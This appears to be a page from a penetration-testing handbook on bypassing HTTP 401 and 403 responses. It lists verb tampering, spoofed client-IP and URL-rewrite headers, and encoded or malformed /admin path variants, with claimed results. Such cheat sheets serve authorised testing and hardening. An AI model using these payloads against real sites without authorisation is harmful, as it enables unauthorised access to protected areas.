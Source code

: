 # Bypass 401 & 403

## [HTTP Verbs Tampering](https://book.bugbountyhub.xyz/pentesting-web/http-verb-tampering)

Try using **different verbs** to access the file: `GET, HEAD, POST, PUT, DELETE, CONNECT, OPTIONS, TRACE, PATCH, INVENTED, HACK`

## HTTP Headers Fuzzing

Try using HTTP Proxy **Headers**, HTTP Authentication Basic and NTLM brute-force (with a few combinations only) and other techniques.

```http
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
Host: localhost
```

If the **path is protected** you can try to bypass the path protection using these other headers:

```http
X-Original-URL: /admin
X-Rewrite-URL: /admin
```

## Path **Fuzzing**

If `/admin` is **blocked**:

* Try using `/%2e/admin` _(if access is blocked by a proxy, this could bypass the protection)._
* _Try also `/%252e/admin`_ (double URL encode)
* Try **Unicode bypass**: `/%ef%bc%8fadmin` (The URL encoded chars are like "/") so when encoded back it will be `//admin` and maybe you will have already bypassed the `/admin` name check

Other `/admin` bypasses:

* `site.com/admin` –> HTTP 403 Forbidden
* `site.com/ADMIN` –> HTTP 200 OK
* `site.com/admin/` –> HTTP 200 OK
* `site.com/admin/.` –> HTTP 200 OK
* `site.com//admin//` –> HTTP 200 OK
* `site.com/./admin/..` –> HTTP 200 OK
* `site.com/;/admin` –> HTTP 200 OK
* `site.com/.;/admin` –> HTTP 200 OK
* `site.com//;//admin` –> HTTP 200 OK
* `site.com/admin.json` –> HTTP 200 OK (ruby)
